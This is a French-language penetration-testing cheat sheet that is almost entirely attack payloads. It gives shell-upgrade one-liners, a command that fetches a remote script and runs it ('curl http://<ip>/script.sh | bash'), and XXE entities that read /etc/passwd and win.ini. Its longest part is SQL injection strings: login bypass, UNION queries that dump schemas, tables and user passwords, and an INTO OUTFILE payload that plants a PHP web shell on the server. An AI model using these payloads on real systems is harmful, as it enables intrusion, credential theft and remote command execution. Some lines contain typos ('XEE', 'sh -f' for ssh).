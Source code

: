 ```bash
# passer en bash
/usr/bin/script -qc /bin/bash /dev/null
python3 -c 'import pty;pty.spawn("/bin/bash")'

# monter un serveur web pour dl des fichiers
python3 -m http.server 80 -d <chemin> 
curl http://>
wget http://>

# executer un script
cat script.sh | bash
curl http://<ip>/script.sh | bash

# Tunnel ssh
sh -f -NL 1234:localhost:5432 user@IP

# XEE
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```

### Injections SQL

```sql

http://target.com/login.php?id=1' OR '1'='1 --

-- Chercher à détecter le type d'injection possible en mettant des caractères spéciaux
1' or 1=1 --
-- Détecter le nombre de colonnes :
1' ORDER BY 1 --
1' ORDER BY 2 --
1' ORDER BY 3 --

-- Liste des DB 
1' UNION SELECT schema_name, NULL FROM information_schema.schemata --
-- Liste des tables d'une DB
1' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'dvwa' --
-- Explorer les colonnes
1' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'dvwa' --
-- Détails des colonnes d'une table
1' UNION SELECT user, password FROM dvwa.users --

-- SQLITE
' UNION SELECT sql, NULL FROM sqlite_master WHERE type='table' --
' UNION SELECT name, NULL FROM sqlite_master WHERE type='table'--
' UNION SELECT sql, NULL FROM sqlite_master WHERE type='table' AND name='users'--
' UNION SELECT username, NULL FROM users --
' UNION SELECT password, NULL FROM users --
' UNION SELECT COUNT(*), NULL FROM users --
' UNION SELECT username, NULL FROM users LIMIT 1 OFFSET 0 --
' UNION SELECT password, NULL FROM users LIMIT 1 OFFSET 1 --
' UNION SELECT username, NULL FROM users LIMIT 1 OFFSET 2 --


Brazil' UNION SELECT "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```
